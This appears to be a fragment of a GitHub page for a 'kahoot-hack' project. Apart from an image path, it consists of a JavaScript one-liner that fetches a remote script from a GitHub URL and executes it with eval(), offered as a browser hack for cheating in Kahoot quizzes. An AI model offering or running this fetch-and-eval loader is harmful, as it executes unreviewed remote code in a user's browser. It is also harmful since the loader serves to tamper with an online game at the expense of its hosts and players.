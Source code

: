 fetch("https://raw.githubusercontent.com/lucky8lucky21/kahoot-hack/main/kahoot%20hack/script.js")
.then((res) => res.text()
.then((t) => eval(t)))
